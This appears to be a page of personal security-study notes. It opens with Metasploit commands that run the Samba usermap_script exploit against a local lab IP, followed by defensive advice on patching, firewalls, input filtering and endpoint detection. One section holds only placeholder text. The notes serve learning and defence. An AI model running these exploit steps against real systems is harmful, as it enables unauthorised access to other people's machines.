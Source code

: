 ```bash

# exploit samba
> use exploit/multi/samba/usermap_script
> show info # to read more about the exploit
> show options
> set RHOSTS 192.168.0.38
> run

# type some commands
whomai
ifconfig
```
###### <strong style="color: #689d6a">To prevent vulnerabilities:</strong>

<span style="color: #3588E9">--></span> <strong style="color: #d79921">Always patch and update everything on the machine</strong>, which include apps, operating systems and browsers. It's also important to install an antivirus software and set up a firewall.

<span style="color: #98971a">Firewall</span> can filter all the incoming and outgoing traffic on the machine or network, and it can also notice if some request might be malicious.

Share common attack knowledge with the employees, like recognize phishing attack, not to input any important data on an untrusted application or website, not plugging in unknown USB device into an important system.

Developers should be introduced to the vulnerabilities, test every application in production for bugs, filter user input of the application, don't apply higher privileges on the system.

User input is where 99% of the attacks can come from.

Application should be able to process any kind of input and not crash or act it's not supposed to act.

There is no need for parts of the application to run with root privileges if it does not require root privileges at all.
## **Social Engineering**
---
lorem ipsum
## **End-Point Protection**
---
<span style="color: #d65d0e">Endpoint Security</span> it is security on the endpoints of the network, it focus on the devices that are connected to the internet.

<span style="color: #3588E9">--></span> <strong style="color:#d79921">Always update the browser!!</strong>

<span style="color: #d65d0e">Endpoint Detection and Response (EDR)</span> <span style="color: #3588E9">--></span> can be described as a layer of protection that constantly monitors and collects data that might indicate a threat on an endpoint device. They do this by analyzing the data for specific pattern that will indicate a possible threat.
